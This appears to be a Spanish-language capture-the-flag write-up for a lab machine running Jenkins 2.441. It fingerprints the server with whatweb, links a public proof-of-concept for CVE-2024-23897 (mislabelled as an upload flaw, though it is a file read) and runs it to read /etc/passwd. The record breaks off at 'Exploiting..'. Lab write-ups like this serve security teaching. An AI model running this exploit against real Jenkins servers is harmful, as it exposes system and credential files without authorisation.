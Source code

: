 - Tenemos dos servicios, un ``ssh`` por el puerto 22 y un ``http`` por el puerto 8080.
- Si visitamos este último podemos ver que la página es un `Jenkings` versión 2.441:

![Pasted image 20240417121828](https://github.com/JoseVazquez101/Writteups/assets/111292579/f895e90c-9d62-4851-b8a0-5a95b9dc8f59)

- Esto lo podemos confirmar con `whatweb`:

~~~bash
❯ whatweb http://10.10.11.10:8080/ -v
WhatWeb report for http://10.10.11.10:8080/
Status    : 200 OK
Title     : Dashboard [Jenkins]
IP        : 10.10.11.10
Country   : RESERVED, ZZ

Summary   : Cookies[JSESSIONID.a205034c], HTML5, HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.a205034c], Jenkins['2.441'], Jetty[10.0.18], OpenSearch[/opensearch.xml], Script[application/json,text/javascript], UncommonHeaders[x-content-type-options,x-hudson-theme,referrer-policy,cross-origin-opener-policy,x-hudson,x-jenkins,x-jenkins-session,x-instance-identity], X-Frame-Options[sameorigin]
~~~

- Buscando un poco algunas vulnerabilidades encontré una bastante reciente, la cual se trata de una ``File Arbitrary Upload``:
	- https://github.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability

- Esta se aprovecha de que versiones de Jenkins anteriores a esta no desactivan una función de su analizador de comandos CLI que reemplaza un carácter '@' seguido de una ruta de archivo en un argumento con el contenido del archivo.
- Esto permite a atacantes no autenticados leer archivos arbitrarios en el Sistema de archivos del controlador Jenkins.
- Si la ejecutamos veremos que podemos leer información del `/etc/passwd`:

~~~bash
❯ python3 PoC.py -u http://10.10.11.10:8080/ -f '/etc/passwd'
   _  _         _     _   _          ___ _       
 | || |__ _ __| |__ | |_| |_  ___  | _ \ |__ _ _ _  ___| |_ 
 | __ / _` / _| / / |  _| ' \/ -_) |  _/ / _` | ' \/ -_)  _|
 |_||_\__,_\__|_\_\  \__|_||_\___| |_| |_\__,_|_||_\___|\__|

Exploiting..
~~~